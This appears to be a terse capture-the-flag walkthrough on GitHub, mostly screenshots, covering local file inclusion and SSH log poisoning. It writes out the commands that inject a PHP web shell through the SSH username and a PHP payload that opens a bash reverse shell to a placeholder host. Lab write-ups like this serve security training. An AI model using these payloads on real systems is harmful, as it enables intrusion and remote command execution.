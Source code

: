 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a7b2dd5a-fb75-4691-a800-9242f265814a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0b142f2a-075f-4e6a-9b78-537719ee7601)

https://book.hacktricks.xyz/pentesting-web/file-inclusion

```
cat dot-slash-PathTraversal_and_LFI_pairing.txt | sed -e "s/.$//" > out.txt 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9de9f00f-146c-49c8-997c-44bacc0508dd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bc2ef9b8-2236-4d56-ba7a-23b609ee2585)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4ab24a67-25e2-4444-8220-b349985610f1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/65bd9ced-057c-4e2e-a7e6-e070ebdae6ac)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/011afb6b-8892-416c-90d9-ab6c89ecac41)
```
ssh '<?php phpinfo(); ?>'@62.173.140.174 -p 18222
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/13130953-76fa-43cb-88b9-5f2decc00ef2)
```
ssh '<?php system($_GET["c"]); ?>'@62.173.140.174 -p 18222 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4b1329e2-6d08-489e-ba41-6602ceecd0f1)
```
<?php echo system("bash -c 'sh -i >& /dev/tcp/IP/1234 0>&1'"); ?>
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/14e6cc27-f3a7-4e6d-9378-616bc830e1e5)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/489e27fa-de48-4828-b03f-e41a62867677)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/581dcba0-594e-4ad2-9ac6-0525a235bf41)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d521a65d-c4c8-41ba-98e3-4580def623ea)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/507dc651-902e-4159-b0a6-321e1c2ab139)
```
ssh steve@62.173.140.174 -p 18222
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4afcf2d1-ed79-4424-8bba-c235f718bece)



